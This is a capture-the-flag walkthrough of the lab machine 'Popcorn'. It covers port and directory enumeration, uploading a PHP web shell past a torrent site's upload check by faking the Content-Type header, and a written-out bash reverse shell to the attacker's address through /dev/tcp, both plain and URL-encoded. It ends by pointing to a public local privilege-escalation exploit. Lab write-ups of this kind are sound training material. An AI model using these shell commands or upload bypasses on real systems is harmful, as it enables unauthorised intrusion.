







# Popcorn
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.6 -T4                             
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-02 11:54 BST
Warning: 10.10.10.6 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.10.6 (10.10.10.6)
Host is up (0.14s latency).
Not shown: 65504 closed tcp ports (conn-refused), 29 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
```
└─$ nmap -Pn -p22,80 -sC -sV 10.10.10.6 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-02 12:08 BST
Nmap scan report for 10.10.10.6 (10.10.10.6)
Host is up (0.10s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
- Web server


- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.6/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt --no-error      
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.6/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt
[+] Timeout:                 10s
===============================================================
2023/09/02 12:09:55 Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 177]
/test                 (Status: 200) [Size: 47026]
/torrent              (Status: 301) [Size: 310] [--> http://10.10.10.6/torrent/]
/rename               (Status: 301) [Size: 309] [--> http://10.10.10.6/rename/]
```




## Foothold/User
- Let's check the torrent hoster
  - I will register a user and check if there is something interesting
  - We have `Kali Linux` image





- We have an `http://10.10.10.6/torrent/upload/` with uploaded images


- We know from `http://10.10.10.6/test`
  - That we have `file_uploads` option `on`
  - And looks like we can upload files to `http://10.10.10.6/torrent/torrents.php?mode=upload`




- We saw `http://10.10.10.6/rename` endpoint which allows renaming the files
  - The possible path for us is to upload files/image via `torrent` endpoint and change extension to `.php` via `rename` endpoint
  - First we download a correct torrent file since we need to pass the check when uploading the check




- Now we click `edit this torrent`
  - Select a `image` file and click `submit screenshot`
  - I chose `shell.php`
  - And it failed with `Invalid file` error






- There are 3 ways we can bypass the check:
  - Change `Content-Type` header
  - Change file extension
  - Set `Magic` bytes
  - I'll start with header




- And web shell works


- Let's get reverse shell
  - `bash -c 'bash -i >& /dev/tcp/10.10.16.4/6666 0>&1'`
  - Change `&` with `%26`, it should work
    - `?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.16.4/6666 0>%261'`


- If you have weird behavior with shell after upgrading it
  - Try typing `reset` and type `screen` for `Terminal type?`


## Root
- `george` user
```
www-data@popcorn:/var/www$ find / -user george -type f -ls 2>/dev/null
    76    4 -rw-r--r--   1 george   george        220 Mar 17  2017 /home/george/.bash_logout
    82    4 -rw-r--r--   1 george   george       3180 Mar 17  2017 /home/george/.bashrc
 42885  832 -rw-r--r--   1 george   george     848727 Mar 17  2017 /home/george/torrenthoster.zip
 42883    0 -rw-r--r--   1 george   george          0 Mar 17  2017 /home/george/.cache/motd.legal-displayed
 42884    0 -rw-r--r--   1 george   george          0 Mar 17  2017 /home/george/.sudo_as_admin_successful
  2210    4 -rw-r--r--   1 george   george         33 Sep  2 13:53 /home/george/user.txt
   107    4 -rw-r--r--   1 george   george        675 Mar 17  2017 /home/george/.profile
```
- We see `/home/george/.cache/motd.legal-displayed`
  - Googling results in https://www.exploit-db.com/exploits/14339
  - I'll download the `script` and run it on the box

